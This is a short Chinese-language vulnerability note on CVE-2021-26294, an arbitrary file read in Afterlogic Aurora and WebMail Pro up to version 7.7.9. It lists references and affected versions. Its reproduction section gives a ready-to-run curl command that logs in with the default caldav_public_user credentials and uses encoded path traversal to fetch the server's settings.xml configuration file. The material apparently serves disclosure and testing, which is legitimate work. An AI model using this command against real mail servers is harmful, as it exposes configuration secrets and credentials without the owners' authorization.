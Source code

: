 # 

# Afterlogic Aurora & WebMail Pro 任意文件读取CVE-2021-26294

## 漏洞描述

攻击者可以通过caldav_public_user@localhost用户登录，不需要其它用户信息就可以读取配置文件从而获得敏感信息。

参考链接：

- http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26294
- https://github.com/E3SEC/AfterLogic/blob/main/CVE-2021-26294-exposure-of-sensitive-information-vulnerability.md
- https://forum.ywhack.com/thread-115326-1-8.html

## 漏洞影响

```
WebMail Pro ≤ 7.7.9
Afterlogic Aurora ≤ 7.7.9
```

## 漏洞复现

```
curl -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/personal/%2e%2e/%2e%2e//%2e%2e//%2e%2e/data/settings/settings.xml"
```



